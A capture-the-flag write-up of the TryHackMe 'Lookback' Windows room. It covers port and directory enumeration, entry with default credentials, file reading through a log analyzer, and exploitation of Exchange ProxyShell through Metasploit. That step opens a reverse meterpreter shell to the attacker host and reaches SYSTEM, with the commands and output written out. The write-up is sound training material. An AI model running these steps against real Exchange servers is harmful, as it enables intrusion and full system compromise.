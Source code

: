 ```yaml
---
title: "Lookback"
date: 2025-02-27
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Lookback
categories: [TryHackMe, Easy]
tags: [windows, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Lookback</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>You’ve been asked to run a vulnerability test on a production environment.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Windows</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/lookback">https://tryhackme.com/room/lookback</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Lookback.

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.242.206
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-27 15:43 EDT
Nmap scan report for 10.10.242.206
Host is up (0.041s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 130.50 seconds

```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 80,443,3389 10.10.242.206
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-27 15:46 EDT
Nmap scan report for 10.10.242.206
Host is up (0.039s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title.
|_http-server-header: Microsoft-IIS/10.0
443/tcp  open  ssl/https
| ssl-cert: Subject: commonName=WIN-12OUO7A66M7
| Subject Alternative Name: DNS:WIN-12OUO7A66M7, DNS:WIN-12OUO7A66M7.thm.local
| Not valid before: 2023-01-25T21:34:02
|_Not valid after:  2028-01-25T21:34:02
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM
|   NetBIOS_Domain_Name: THM
|   NetBIOS_Computer_Name: WIN-12OUO7A66M7
|   DNS_Domain_Name: thm.local
|   DNS_Computer_Name: WIN-12OUO7A66M7.thm.local
|   DNS_Tree_Name: thm.local
|   Product_Version: 10.0.17763
|_  System_Time: 2025-03-15T19:46:27+00:00
| ssl-cert: Subject: commonName=WIN-12OUO7A66M7.thm.local
| Not valid before: 2025-03-14T19:36:49
|_Not valid after:  2025-09-13T19:36:49
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -17s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.87 seconds
```
From here I proceeded the analysis port by port.

## Port 80 & 443 Analysis

I began by accessing the webserver via port 80, but didn't get any further, so I started a `feroxbuster` directory enumeration:
```bash
$ feroxbuster -u http://10.10.242.206 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
                                                                                                                                                                                                                                             
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 邏                 ver: 2.11.0
───────────────────────────┬──────────────────────
   Target Url            │ http://10.10.242.206
   Threads               │ 50
   Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
   Status Codes          │ All Status Codes!
   Timeout (secs)        │ 7
 說  User-Agent            │ feroxbuster/2.11.0
   Config File           │ /etc/feroxbuster/ferox-config.toml
   Extract Links         │ true
   HTTP methods          │ [GET]
   Recursion Depth       │ 4
───────────────────────────┴──────────────────────
   Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        0l        0w        0c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET       29l       92w     1233c http://10.10.242.206/test
302      GET        3l        8w      209c http://10.10.242.206/ecp => https://10.10.242.206/owa/auth/logon.aspx?url=https%3a%2f%2f10.10.242.206%2fecp&reason=0
```

When I accessed the webserver using HTTPS, I was redirected to an Exchange server login page. However, without any credentials or email addresses to proceed, I moved on for the time being.

### Directory /test Analysis

The `/test` directory prompted for HTTP basic authentication. I tried some default username-password combinations manually and was successful. After logging in, the website displayed a log analyzer and the first flag. 

![Log Analyzer](/assets/img/tryhackme/Lookback/thm_lookback_1.jpg)

It seemed to load a specified log file, so I successfully tried accessing the Windows default file `win.ini`:

![Win ini](/assets/img/tryhackme/Lookback/thm_lookback_2.jpg)

From there, I was able to read files on the desktop of the user `dev`. I retrieved the next flag and an interesting note, where one sentence caught my attention:

![Note](/assets/img/tryhackme/Lookback/thm_lookback_3.jpg)

```text
Install the Security Update for MS Exchange [TO BE DONE]
```

## Shell as SYSTEM

Because of this to-do item, which likely hadn't been completed yet, I enumerated the Microsoft Exchange server version. While analyzing the source code, the path of the favicon caught my attention:
```html
<link rel="shortcut icon" href="/owa/auth/15.2.858/themes/resources/favicon.ico" type="image/x-icon">
```

The version number of the Exchange server was `15.2.858`. I researched the version number and found this <a href="https://www.rapid7.com/db/modules/exploit/windows/http/exchange_proxyshell_rce/">Rapid7 post</a> about the ProxyShell vulnerability. Since this post referenced Metasploit, I launched it on my machine, searched for the vulnerability, and loaded the module:
```bash
msf6 > search proxyshell
                                                                                                                                                                                                                                
Matching Modules                                                                                                                                                                                                                
================                                                                                                                                                                                                                

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/windows/http/exchange_proxyshell_rce  2021-04-06       excellent  Yes    Microsoft Exchange ProxyShell RCE
   1    \_ target: Windows Powershell               .                .          .      .
   2    \_ target: Windows Dropper                  .                .          .      .
   3    \_ target: Windows Command                  .                .          .      .
msf6 > use exploit/windows/http/exchange_proxyshell_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
```

After setting all required options, I executed the exploit and successfully received the System flag:
```bash
msf6 exploit(windows/http/exchange_proxyshell_rce) >
msf6 exploit(windows/http/exchange_proxyshell_rce) > set RHOSTS 10.10.242.206
RHOSTS => 10.10.242.206
msf6 exploit(windows/http/exchange_proxyshell_rce) > set SRVHOST tun0
SRVHOST => [attackerip]
msf6 exploit(windows/http/exchange_proxyshell_rce) > set LHOST tun0
LHOST => [attackerip]
msf6 exploit(windows/http/exchange_proxyshell_rce) > set EMAIL dev-infrastracture-team@thm.local
EMAIL => dev-infrastracture-team@thm.local
msf6 exploit(windows/http/exchange_proxyshell_rce) > exploit

[*] Started reverse TCP handler on [attackerip]:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Attempt to exploit for CVE-2021-34473
[*] Retrieving backend FQDN over RPC request
[*] Internal server name: win-12ouo7a66m7.thm.local
[*] Assigning the 'Mailbox Import Export' role via dev-infrastracture-team@thm.local
[+] Successfully assigned the 'Mailbox Import Export' role
[+] Proceeding with SID: S-1-5-21-2402911436-1669601961-3356949615-1144 (dev-infrastracture-team@thm.local)
[*] Saving a draft email with subject 'WwEOWRXSr2K' containing the attachment with the embedded webshell
[*] Writing to: C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\YxuvU2L0goq2.aspx
[*] Waiting for the export request to complete...
[+] The mailbox export request has completed
[*] Triggering the payload
[*] Sending stage (201798 bytes) to 10.10.242.206
[+] Deleted C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\YxuvU2L0goq2.aspx
[*] Meterpreter session 1 opened ([attackerip]:4444 -> 10.10.242.206:9563) at 2025-03-15 16:13:39 -0400
[*] Removing the mailbox export request
[*] Removing the draft email

meterpreter > cd C:\Users\Administrator\Documents
meterpreter > ls
  Listing: C:\Users\Administrator\Documents
  =========================================

  Mode              Size  Type  Last modified              Name
  ----              ----  ----  -------------              ----
  100666/rw-rw-rw-  2232  fil   2023-01-26 16:16:32 -0500  Default.rdp
  040777/rwxrwxrwx  0     dir   2023-01-25 23:15:09 -0500  My Music
  040777/rwxrwxrwx  0     dir   2023-01-25 23:15:09 -0500  My Pictures
  040777/rwxrwxrwx  0     dir   2023-01-25 23:15:09 -0500  My Videos
  100666/rw-rw-rw-  402   fil   2023-01-25 23:15:14 -0500  desktop.ini
  100666/rw-rw-rw-  35    fil   2023-02-12 14:57:18 -0500  flag.txt

meterpreter > cat flag.txt
  THM{L[removed]d}

meterpreter > shell
  [...]
  c:\users\administrator\documents> whoami
  whoami
  nt authority\system
```

solved! :)